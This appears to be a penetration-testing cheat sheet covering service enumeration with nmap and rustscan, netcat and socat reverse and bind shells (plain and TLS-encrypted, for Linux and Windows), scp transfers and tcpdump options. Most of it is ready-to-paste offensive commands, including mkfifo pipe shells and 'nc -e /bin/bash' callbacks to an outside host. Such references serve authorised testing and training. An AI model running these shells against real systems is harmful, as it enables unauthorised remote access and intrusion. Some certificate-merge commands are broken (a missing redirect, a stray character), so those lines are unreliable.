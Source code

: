 # Methodologies

## Summary
- [Enumerating services](#enumerating-services)
- [Netcat](#netcat)
  - [Setting up a listener](#setting-up-a-listener)
  - [Connecting to listening services](#connecting-to-listening-services)
  - [Send & receive files](#send--receive-files)
- [SecureCopy](#securecopy)
  - [Transfer remote files to local machine](#transfer-remote-files-to-local-machine)
  - [Transfer local files to remote machine](#transfer-local-files-to-remote-machine)
- [Socat](#socat)
  - [Setting up a stabilised listener](#setting-up-a-stabilised-listener)
  - [Connect to stabilised listener](#connect-to-stabilised-listener)
  - [Set up a standard listener](#set-up-a-standard-listener)
  - [Connect to a standard listener](#set-up-a-standard-listener)
  - [Set up encrypted reverse shell](#set-up-encrypted-reverse-shell)
  - [Set up encrypted bind shell](#set-up-encrypted-bind-shell)
- [TCPdump](#tcpdump)
  - [Useful options](#useful-options)

## Enumerating services
```
nmap -p- -A --min-rate 10000 -oN [save file] 10.0.0.1
rustscan -u 5000 -a 'machine-ip' -- -sC -sV
rustscan -u 5000 -b 2250 -t 2000 -a 'ip' -- -A -oN scan.txt
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.0.0.1
nmap --script firewall-bypass <target>
nmap --script firewall-bypass --script-args firewall-bypass.helper="ftp",firewall-bypass.targetport=21 <target>
nmap -n -sV --script="ldap* and not brute" -p 389 127.0.0.1 
nmap 10.0.0.1 -p139,445 --script=smb-vuln*
nmap --script=vuln -p 80 10.0.0.1
```

## Netcat
### Setting up a listener
```
nc -lvnp 4444
nc -e /bin/bash -lvnp 4444 --ssl
nc -e cmd.exe -lvnp 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvnp 4444 > /tmp/f
```

### Connecting to listening services
```
nc -e /bin/bash 10.0.0.1 4444 --ssl
nc -e cmd.exe 10.0.0.1 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 > /tmp/f
mkfifo /tmp/f;nc 10.0.0.1 4444 < /tmp/f|/bin/sh -i 2>&1;rm /tmp/f
```

### Send & receive files
```
nc -lvnp 4444 < file-name
nc -nv 10.0.0.1 4444 > file-name
```

## SecureCopy
### Transfer remote files to local machine
```
scp admin@10.0.0.1:<file_path> .
scp -P 4444 admin@10.0.0.1:<file_path> .
```

### Transfer local files to remote machine
```
scp <file_name> admin@10.0.0.1:[path][file name to save]
scp -P 4444 <file_name> admin@10.0.0.1:[path][file name to save]
```

## Socat
### Setting up a stabilised listener
`socat TCP-L:4444 FILE:`tty`,raw,echo=0`

### Connect to stabilised listener
`socat TCP:10.0.0.1:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Set up a standard listener
```
socat TCP-L:4444 -
socat -d -d TCP4-LISTEN:4443 STDOUT
socat TCP-L:4444 EXEC:"bash -li"
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
socat TCP-L:4444 EXEC:powershell.exe,pipes
socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes
```

### Connect to a standard listener
```
socat TCP:10.0.0.1:4444 EXEC:powershell.exe,pipes
socat TCP4:10.0.0.1:4443 EXEC:'cmd.exe',pipes
socat TCP:10.0.0.1:4444 EXEC:"bash -li"
socat TCP4:10.0.0.1:4443 EXEC:/bin/bash
socat TCP:10.0.0.1:4444 -
socat - TCP4:10.0.0.130:4443
```

### Set up encrypted reverse shell
*Generate a certificate*

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

*Merge the 2 created files into .pem extension*

`cat shell.key shell.crt shell.pem`

*Set up listener on local machine*
```
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0
socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:/bin/bash [LINUX]
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:'cmd.exe',pipes [WINDOWS]
```

### Set up encrypted bind shell
*Generate a certificate*
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt`
```
*Merge the 2 created files into .pem file*

`cat bind.key bind.crt L bind.pem`

*Set up a listener on target machine*
```
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes [WINDOWS]
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash [LINUX]
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4444,verify=0
socat - OPENSSL:10.0.0.130:4443,verify=0
```

## TCPdump
### Useful options
| Options | Description |
| ------- | ----------- |
| tcpdump -i any | Capture packets from any interfaces. "any" can be change accordingly to interfaces name. |
| tcpdump -i eth0 icmp | Capture packets of ICMP protocol from eth0 interface. |
| tcpdump port 80 | Capture packets coming from port 80(HTTP) from any interfaces. |
| tcpdump -D | Show available interfaces |
| tcpdump -i any -A | Print output in Ascii |
| tcpdump -i eth0 tcp/udp | Capture TCP/UDP packets only |
| tcpdump -i eth0 -c 10  | Capture first 10 packets only. |
| tcpdump -i any -w network.pcap | Save output to a file. |
| tcpdump host 192.168.1.100 | Capture packets from a specific host. |

